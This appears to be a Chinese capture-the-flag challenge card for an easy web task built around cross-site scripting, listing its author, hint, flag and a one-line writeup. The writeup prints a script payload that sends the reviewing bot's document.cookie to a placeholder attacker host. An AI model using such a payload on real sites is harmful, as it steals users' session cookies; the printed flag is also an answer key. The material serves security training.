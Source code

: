 * **题目名称：** kk园区审核员

* **题目类型：** WEB

* **题目难度：** 容易 

* **出题人：**pANz0e

* **考点：**  

1. xss


* **描述：**  善良的出题人组织了一次kk园区的参观活动，现在收集有意向前往的人员信息，提交后工作人员会第一时间审核哦，审核通过还能得到审核的美味曲奇奖励！~

* **flag：**XSCTF{Y0u_succ3s5ful1y_x55_m3}

* **Writeup：** 随便找个xss地方`<script>new Image().src="http://ip:port/"+document.cookie</script>`，点击提交即可
